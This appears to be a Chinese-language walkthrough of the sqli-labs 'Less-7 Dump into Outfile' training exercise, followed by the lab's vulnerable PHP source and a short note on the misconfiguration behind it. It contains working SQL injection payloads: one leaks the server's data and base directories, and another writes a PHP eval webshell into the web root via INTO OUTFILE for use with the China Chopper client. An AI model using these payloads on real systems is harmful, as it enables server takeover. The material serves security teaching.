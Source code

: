 ## Less-7 **GET Dump into Outfile**
TAG：PODTx注入、outfile
## 漏洞利用
输入```?id=1```时返回
![less7_1](images/Less7_1.png)
输入```?id=1'```时返回报错，但是没有详细的报错,这意味着无法进行报错注入  
![less7_2](images/Less7_2.png)  
但是提示打开了数据库outfile，可以将查询到的数据输出到文件中，可以通过这一特性进行一句话木马的上传  

要利用这一特性上传一句话木马，就要先获取网站/数据库的绝对目录，这个信息可以在前几个less中进行获取  
payload:```?id=1' union select 1,@@datadir,@@basedir--+```
![less7_3](images/Less7_3.png)  
获取到绝对路径后，就可以进行一句话木马的写入了  
payload:```?id=1'))UNION SELECT 1,2,'<?php @eval($_post['aaa']);?>' into outfile "C:\\phpstudy_pro\\WWW\\sqli\\Less-7\\1.php%22--+```
写入成功后就可以使用菜刀连接了  

## 源码分析  
### less7源码：
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-7 Dump into Outfile</title>

</head>

<body bgcolor="#000000">

<div style=" margin-top:60px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 


$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font color= "#FFFF00">';	
  	echo 'You are in.... Use outfile......';
  	echo "<br>";
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	echo 'You have an error in your SQL syntax';
	//print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>
</font> </div></br></br></br><center>
<img src="../images/Less-7.jpg" /></center>
</body>
</html>
```
### 漏洞点分析：
通过阅读与分析此less代码并不能很直接的获取到漏洞的信息，因为此漏洞建立在对数据库的错误配置上，没有关闭数据库文件导出的功能或对其进行合理限制  
